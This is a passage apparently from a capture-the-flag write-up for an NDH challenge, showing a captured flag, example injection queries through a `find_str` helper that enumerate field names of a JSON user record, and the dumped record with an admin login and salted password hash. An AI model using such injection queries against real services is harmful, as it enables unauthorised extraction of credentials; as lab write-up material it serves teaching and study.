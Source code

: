 ```
NDH{+!$!I_CREATED_A_NEW_INJECTION_ATTACK!$!+}
```

While trying to find the second flag we then also found a way to get the field
names with queries like `array($.users[0])[i]`, i.e.

```python
find_str("array($.users[0])[0]") == "login"
find_str("array($.users[0])[1]") == "password"
find_str("array($.users[0])[2]") == "entropy"
find_str("array($.users[0])[3]") == "flag"
```

The full data structure is:

```json
{
  "users" : [
    {
      "login": "admin",
      "password": "$CONFIGSALT$9c2137e18b28698e00f97428aca597a75c4526e90755fadb2704dc3c5ce6627b",
      "entropy": 51.558,
      "flag": "NDH{+!$!I_CREATED_A_NEW_INJECTION_ATTACK!$!+}"
    }
  ]
}
```

Unfortunately we didn't manage to get the second flag for this challenge :(

